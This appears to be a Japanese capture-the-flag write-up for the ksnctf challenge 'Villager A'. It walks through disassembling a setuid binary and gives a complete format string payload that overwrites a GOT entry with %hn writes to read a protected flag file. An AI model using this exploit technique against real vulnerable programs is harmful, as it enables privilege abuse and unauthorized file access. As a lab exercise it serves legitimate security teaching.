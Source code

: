 ## [4. Villager A](http://ksnctf.sweetduet.info/problem/4)

指定されたサーバにSSHで入る。
ホームディレクトリにあるファイルは次の通り。

```console
[q4@localhost ~]$ ls -l
total 16
-r--------. 3 q4a  q4a    22 May 22  2012 flag.txt
-rwsr-xr-x. 1 q4a  q4a  5857 May 22  2012 q4
-rw-r--r--. 1 root root  151 Jun  1  2012 readme.txt
```

おそらく `flag.txt` にflagが書いてあると思われるが、アクセス権がない。
`q4` を実行してその中身を読むのだろう。

とりあえず `q4` を実行すると、名前を聞かれ、その後 "no" を入力するまで無限ループする。

```console
[q4@localhost ~]$ ./q4
What's your name?
ordovicia
Hi, ordovicia

Do you want the flag?
yes
Do you want the flag?
yes
Do you want the flag?
no
I see. Good bye.
```

おそらく [format string attack](https://ja.wikipedia.org/wiki/%E6%9B%B8%E5%BC%8F%E6%96%87%E5%AD%97%E5%88%97%E6%94%BB%E6%92%83) を使うのだろう。
そこで攻撃してみると、

```console
[q4@localhost ~]$ echo -e "AAAA, %x, %x, %x, %x, %x, %x, %x" | ./q4
What's your name?
Hi, AAAA, 400, 3a78c0, 8, 14, 806fc4, 41414141, 7825202c

Do you want the flag?
```

となり、スタックの6番目の領域に、入力した値 (`AAAA` = `0x41, 0x41, 0x41, 0x41`) が格納されていることが分かる。

何を入力すれば攻撃が成功するのか考えるため、逆アセンブルして解析を進める。
[逆アセンブルの結果](https://github.com/ordovicia/ksnctf/blob/master/4-Villager_A/dis.asm) から抜粋すると、次のように動作していそうだと想像できる。

```
...
08048474 <putchar@plt>:
 8048474:	ff 25 e0 99 04 08    	jmp    DWORD PTR ds:0x80499e0
 804847a:	68 08 00 00 00       	push   0x8
 804847f:	e9 d0 ff ff ff       	jmp    8048454 <.plt>
...

080485b4 <main>:
 ...

 // 1. 最初の出力. "What's your name?"
 80485c7:	e8 f8 fe ff ff       	call   80484c4 <puts@plt>
 ...

 // 2. 最初の入力
 80485e4:	e8 9b fe ff ff       	call   8048484 <fgets@plt>

 // 3. "Hi, " を出力
 80485e9:	c7 04 24 b6 87 04 08 	mov    DWORD PTR [esp],0x80487b6
 80485f0:	e8 bf fe ff ff       	call   80484b4 <printf@plt>

 // 4. 2で入力した値を出力
 80485f5:	8d 44 24 18          	lea    eax,[esp+0x18]
 80485f9:	89 04 24             	mov    DWORD PTR [esp],eax
 80485fc:	e8 b3 fe ff ff       	call   80484b4 <printf@plt>

 // 5. '\n' を出力
 8048601:	c7 04 24 0a 00 00 00 	mov    DWORD PTR [esp],0xa
 8048608:	e8 67 fe ff ff       	call   8048474 <putchar@plt>

 // 6. "no" を入力するまで無限ループ
 804860d:	c7 84 24 18 04 00 00 	mov    DWORD PTR [esp+0x418],0x1
 ...
 804868f:	75 89                	jne    804861a <main+0x66>

 // 7. "flag.txt" ファイルを読んで出力
 8048691:	c7 44 24 04 e6 87 04 	mov    DWORD PTR [esp+0x4],0x80487e6
 8048698:	08
 8048699:	c7 04 24 e8 87 04 08 	mov    DWORD PTR [esp],0x80487e8
 80486a0:	e8 ff fd ff ff       	call   80484a4 <fopen@plt>
 80486a5:	89 84 24 1c 04 00 00 	mov    DWORD PTR [esp+0x41c],eax
 80486ac:	8b 84 24 1c 04 00 00 	mov    eax,DWORD PTR [esp+0x41c]
 80486b3:	89 44 24 08          	mov    DWORD PTR [esp+0x8],eax
 80486b7:	c7 44 24 04 00 04 00 	mov    DWORD PTR [esp+0x4],0x400
 80486be:	00
 80486bf:	8d 44 24 18          	lea    eax,[esp+0x18]
 80486c3:	89 04 24             	mov    DWORD PTR [esp],eax
 80486c6:	e8 b9 fd ff ff       	call   8048484 <fgets@plt>
 80486cb:	8d 44 24 18          	lea    eax,[esp+0x18]
 80486cf:	89 04 24             	mov    DWORD PTR [esp],eax
 80486d2:	e8 dd fd ff ff       	call   80484b4 <printf@plt>
 ...
```

7に飛べればflagが得られるが、このままではたどり着けない。
そこでGOT overwriteにより7に飛ぶことを考える。
つまり、

* 2で format string attack をおこなうことにより、
* `putchar()` のGOTが参照している `0x80499e0` の参照先を `0x8048691` に書き換え、
* 5の `putchar()` 呼び出しで7に飛ぶ。

Format string attack でのメモリ書き込みは `%n` 系のフォーマット指定子を使う。
これは引数をアドレスとして解釈し、「printfが出力しているバイト数」をそのアドレスに書き込む。
`%n` は4バイト、`%hn` は2バイト、`%hhn` は1バイト書き込む。
書き込みたい値が大きいとき、`%n` を使うと「出力しているバイト数」を満たすために大量に書き込みが必要になることがあるので、
`%hn`, `%hhn` を使い2バイト、1バイトごとに分けて書き込むことがある。
今回は、エンディアンも考慮して、

* `0x80499e0` に下位2バイト `0x86`, `0x91`
* `0x80499e2` に上位2バイト `0x08`, `0x04`

を書き込む。
「出力しているバイト数」を合わせるため、それぞれの書き込みの前に `0x8691 - 8 = 34441`, `0x0804 - 34441 - 8 = 33139` バイト出力する。
また、`q4` に入力した値はスタックの6番目に格納されることが分かっている。
つまり、

```
\xe0\x99\x04\x08
\xe2\x99\x04\x08
%34441x
%6$hn
%33139x
%7$hn
```

をつなげて入力すればよい。

```console
$ echo -e '\xe0\x99\x04\x08\xe2\x99\x04\x08%34441x%6$hn%33139x%7$hn' | ./q4
```
